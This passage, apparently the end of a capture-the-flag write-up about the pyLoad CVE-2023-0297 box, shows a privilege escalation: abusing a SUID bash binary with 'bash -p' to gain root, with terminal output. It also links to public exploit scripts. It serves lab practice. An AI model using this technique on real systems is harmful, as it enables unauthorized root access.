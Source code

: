 With the SUID bit set on the bash binary, it can be run in privileged mode to get effective root privileges.

```bash
(remote) sau@pc:/home/sau$ ls -la /bin/bash
-rwsrwsrwx 1 root root 1183448 Apr 18  2022 /bin/bash
(remote) sau@pc:/home/sau$ bash -p
(remote) root@pc:/home/sau# id
uid=1001(sau) gid=1001(sau) euid=0(root) egid=0(root) groups=0(root),1001(sau)
(remote) root@pc:/home/sau# ls -la /root/root.txt
-rw-r----- 1 root root 33 Sep 10 19:49 /root/root.txt
```

There's also a [auto exploit](https://github.com/JacobEbben/CVE-2023-0297) script available on GitHub.

**Pwned!!**



---


# Related Links

- https://github.com/ktr0731/evans
- https://github.com/fullstorydev/grpcui
- [CVE-2023-0297 | AttackerKB](https://attackerkb.com/topics/4G0gkUrtoR/cve-2023-0297)
- [bAuh0lz/CVE-2023-0297_Pre-auth_RCE_in_pyLoad: CVE-2023-0297: The Story of Finding Pre-auth RCE in pyLoad](https://github.com/bAuh0lz/CVE-2023-0297_Pre-auth_RCE_in_pyLoad)
- [JacobEbben/CVE-2023-0297: Unauthenticated Remote Code Execution in PyLoad <0.5.0b3.dev31](https://github.com/JacobEbben/CVE-2023-0297)
